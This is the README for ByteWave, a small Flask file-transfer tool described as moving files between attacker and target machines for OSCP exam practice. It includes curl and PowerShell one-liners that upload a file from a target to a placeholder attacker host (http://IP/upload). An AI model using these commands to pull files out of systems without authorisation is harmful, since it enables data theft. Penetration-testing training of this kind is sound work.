 
# ByteWave
<p align="center">
 	 <img src="https://raw.githubusercontent.com/0xSAZZAD/0xSAZZAD/refs/heads/master/bytewave.png" alt=bytewave"/>
	</p>

ByteWave is a simple Flask web application for uploading, downloading, and managing files between both attackers <-----> target endpoints. It provides a user-friendly interface for handling file operations from CLI and browsers.
This file upload technique can be valuable for the students preparing for the OSCP exam.

## Setup

1. Clone the repository:

   ```bash
   git clone https://github.com/sazzad1337/ByteWave.git

2. Run the Flask application:

	```bash
	python bytewave.py

## Features


   - **File Upload:**
   
     **Linux:**
     <be>
	<p align="center">
 	 <img src="https://raw.githubusercontent.com/0xSAZZAD/0xSAZZAD/refs/heads/master/curl.png" alt="poc"/>
	</p>

     ```bash
     curl -F "file=@FILENAME" http://IP/upload
     ```

     **Windows PowerShell:**
     ```bash
     (New-Object System.Net.WebClient).UploadFile('http://IP/upload', 'FILENAME')
     ```


   - **Manage Files:**
   
     ```bash
     http://IP/files
     ```
<p align="center">
  <img src="https://raw.githubusercontent.com/0xSAZZAD/0xSAZZAD/refs/heads/master/files.png" alt="files"/>
</p>
